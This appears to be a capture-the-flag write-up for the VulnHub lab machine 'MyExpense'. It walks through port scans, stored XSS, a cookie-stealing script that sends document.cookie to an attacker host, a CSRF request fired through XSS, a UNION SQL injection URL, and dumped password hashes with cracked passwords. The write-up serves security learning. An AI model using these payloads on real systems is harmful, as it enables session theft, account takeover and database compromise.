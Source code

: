 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/vuln-hub/my-expense/"}
---
```


From description we have the credentials
samuel/fzghn4lw
# Scan
General scan
PORT      STATE SERVICE REASON
   7   │ 80/tcp    open  http    syn-ack ttl 64
   8   │ 38575/tcp open  unknown syn-ack ttl 64
   9   │ 53717/tcp open  unknown syn-ack ttl 64
  10   │ 54457/tcp open  unknown syn-ack ttl 64
  11   │ 59781/tcp open  unknown syn-ack ttl 64
# 80
## Focused scan
```
PORT      STATE SERVICE VERSION
   6   │ 80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
   7   │ |_http-server-header: Apache/2.4.25 (Debian)
   8   │ |_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
   9   │ | http-robots.txt: 1 disallowed entry
  10   │ |_/admin/admin.php
  11   │ | http-cookie-flags:
  12   │ |   /:
  13   │ |     PHPSESSID:
  14   │ |_      httponly flag not set
  ```
## Checking `robots.txt`
```
User-agent: *
Disallow: /admin/admin.php
```

Fuzzing the page we just found `/admin` like above.

## /admin/admin.php
![Pasted image 20240703173824.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703173824.png)
We found an admin panel.
We have more info about us.
`slamotte	Samuel	Lamotte	slamotte@futuraBI.fr	Collaborator	2019-12-03 17:08:09`
We don't have permissions to inactive our user
![Pasted image 20240703174158.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703174158.png)

Trying to login using `slamotte` and `fzghn4lw`.
![Pasted image 20240703175002.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175002.png)

Create a new account.
And the button is disable, but we can inspect the html code.
![Pasted image 20240703175519.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175519.png)
And delete the disable part.
![Pasted image 20240703175631.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175631.png)
Now the button is enable and we can create the new account.
![Pasted image 20240703175654.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175654.png)
We are in the system with an inactive account.
![Pasted image 20240703175913.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175913.png)

Trying XSS creating a new test user with the fields. Don't forget able the button.
![Pasted image 20240703180410.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703180410.png)
Check the admin panel and we have a XSS.
![Pasted image 20240703180550.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703180550.png)
# XSS
To exploit this XSS we need the interaction of a some user, to check if some user is checking the admin panel.
Create a new user with this code on the two last fields.
```js
<script src="http://192.168.122.192/test.js"></script>
```
This code is trying to get the file `test.js` from our server, if someone check the admin panel, the code is executed and we can watch the request on our server.
Mount a server on the attacker machine.
```python
python -m http.server 80
```

## Get the cookie
now in the js file put
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://attackerIP/?cookie=' + document.cookie);
request.send();
```
`PHPSESSID=0iap4q3kqsctljgp13vrcbi1f2`
`0gp9edhmbd1lnnjejhitk4mk65`
`h4a1tpdbhnfjss32mhup0v6d37`
`knjvvrlahr23emlepkqn800ac2`
We got some cookies, one of them is the admin account, but if use that cookie, we can't login, because the system admit just 1 login.

# XSRF
Activate account
Trying another way, if we try to activate the account we have.
![Pasted image 20240704171243.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704171243.png)

Now we know that the admin is constantly visiting the admin panel, so we can set the XSS to the user make a request to the url above.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.122.204/admin/admin.php?id=11&status=active');
request.send();
```
Now we start the python server again ans wait. After a while we can see that the admin make the request and our account should be activate.
![Pasted image 20240704171856.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704171856.png)

After login in, in the expense reports, we see the report and now submit it.
![Pasted image 20240704172227.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704172227.png)
Some has to approve our report, and we see in the profile settings that Manen RIviere is our Manager.
![Pasted image 20240704172450.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704172450.png)
We supposs to Manon has an panel to approve our report, so we'll try to get the Manon cookie sending an js in the message field. Again listen on python server.
![Screenshot_20240704_181923.png](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_181923.png)
We have a few cookies, one of them is the Manager cookie.

![Screenshot_20240704_182401.png](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_182401.png)
Now validate the report. On the green button.

We need that the financial person approve the payment
in the rennes page we will try sqli.

# SQLi
We break the query adding this.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_184024.png)
Now get the information from db
## DB names
information_schema,myexpense,mysql,performance_schema
## myexpense DB
expense,message,site,user
### User Table
`http://192.168.122.204/site.php?id=2%20union%20select%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27user%27--%20-`

user_id,**username**,**password**,role,lastname,firstname,site_id.....e,max_statement_time

## Username and password
**afoulon:124922b5d61dd31177ec83719ef8110a**
**pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a**
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
test:912b7bc95fb9e6885a4685746433f39a
test2:088e03d5b2537942a15e4842d27eb49d

Checking the admin panel again to see all accounts, we are interested on the `Finalcial approvers` accounts and we will try to crack the passwords of them.

`afoulon	Aristide	Foulon	afoulon@futuraBI.fr	Financial approver	2019-12-03 17:08:09`
`pbaudouin	Paul	Baudouin	pbaudouin@futuraBI.fr	Financial approver	2019-12-03 17:08:09`

# Cracking hashes
Checking hashes.com

afoulon:wq6hblv3
pbaudouin:HackMe

Login in like `afoulon` and he don't have our report. But `pbaudouin` has it.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205514.png)

# Flag
Login as Samuel and get the flag.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205739.png)